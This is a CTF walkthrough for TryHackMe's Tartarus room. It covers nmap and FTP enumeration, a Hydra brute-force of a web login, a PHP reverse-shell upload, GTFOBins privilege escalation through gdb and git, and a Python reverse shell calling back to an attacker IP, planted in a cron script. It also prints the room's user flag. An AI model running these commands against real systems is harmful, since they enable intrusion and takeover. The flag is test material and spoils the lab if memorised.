 # TryHackMe-Tartarus Remastered


## NMAP


```
Nmap scan report for 10.10.164.74
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds

```

## PORT 80

`http://10.10.164.74/robots.txt`.

We can find robots.txt file from where we can see `/admin-dir` is accessible and there are possible usernames and passwords




## FTP (Port 21)

Since Anonymous FTP login is allowed we can use that to see what's in `www-data`'s directory.  
```
ftp 10.10.164.74
Connected to 10.10.164.74.
220 (vsFTPd 3.0.3)
Name (10.10.164.74:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> 

```
We can use `get test.txt` to save it locally on our machine.

This was the content of `test.txt`
`vsftpd test file`


But there is another directory which you can miss because it's named as `...`

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
226 Directory send OK.

```

This is the content of `yougotgoodeyes.txt` which is a directory for the webpage.
`/sUp3r-s3cr3t`


## Hydra

```
hydra -L users -P passwords.txt 10.10.164.74 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-21 10:35:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.164.74:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect
[80][http-post-form] host: 10.10.164.74   login: enox   password: P@ssword1234

```
After getting authenticated we are now shown an upload from where we could upload a php reverse shell


## Reverse Shell


Getting a reverse shell first setup netcat listener for any port you want as long as it is not being used

`nc -lvp 5555`


Then get reverse shell from pentest monkey : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

In the php file change `$ip` and `$port` variable to you connected VPN IP and port on which you have set your netcat.

Upload it and execute it from here :

`http://10.10.164.74/sUp3r-s3cr3t/images/uploads/`


Just an extra step if you want you can stabilize shell using this technique so that you can use clear command or auto tab complete

```
1. python -c "import pty;pty.spawn('/bin/bash')";
2. ctrl+z
3. stty raw -echo
4. fg and then press enter 2 times.

```
You can then find user flag in `d4rckh` directory.

User flag : `0f7dbb2243e692e3ad222bc4eff8521f`


## Privilege Escalation


### thirtytwo

We can find SUID files with `find / -perm /4000` and we find `/var/www/gdb`

Then `sudo -l` we can see user `thirtytwo` can run gdb so visiting GTFOBINS we find this one liner which escalates us to user.

`sudo -u thirtytwo /var/www/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit` 


Then again check for `sudo -l`


```
thirtytwo@ubuntu-xenial:/home/d4rckh$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git

```
We can see d4rchk can run `git` so let's try to escalate throguh `git`.


### d4rchk

1. sudo -u d4rchk git -p help config
2. !/bin/sh


```
$ whoami
d4rckh

```

### Root

`/home/d4rchk` has a file named `clean.py` we can see append the contents for python reverse shell then wait for a moment because this is running as a cron job.


```
d4rckh@ubuntu-xenial:/home/d4rckh$ nano cleanup.py 

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.94.60",9999))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```
Setting up again a netcat listener.

```
nc -lvp 9999
listening on [any] 9999 ...
10.10.164.74: inverse host lookup failed: Unknown host
connect to [10.8.94.60] from (UNKNOWN) [10.10.164.74] 53654
/bin/sh: 0: can't access tty; job control turned off
# 


```
